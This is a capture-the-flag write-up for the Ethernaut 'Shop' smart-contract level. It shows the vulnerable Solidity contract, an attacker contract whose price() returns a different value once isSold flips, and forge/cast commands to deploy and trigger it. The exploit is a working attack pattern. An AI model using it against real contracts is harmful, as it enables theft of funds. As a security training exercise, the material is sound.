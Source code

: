 ## Shop Level Outline

**Difficulty : 4/10**

Сan you get the item from the shop for less than the price asked?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

## Solution

Simmilar solution to level 11_Elevator. We need to make a function that returns two different values the first and second time that it is called.

Functions with the **view modifier** cannot modify state so we need to monitor the Shop contract for when the boolean `isSold` changes and return a different value based on when it equals true or false.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Buyer {
    Shop shop;

    constructor(address _shop) {
        shop = Shop(_shop);
    }

    function attack() public {
        shop.buy();
    }

    function price() external view returns (uint) {
        return shop.isSold() ? 1 : 100;
    }
}

interface Shop {
    function isSold() external view returns (bool);
    function buy() external;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Buyer --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --gas 90000 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading

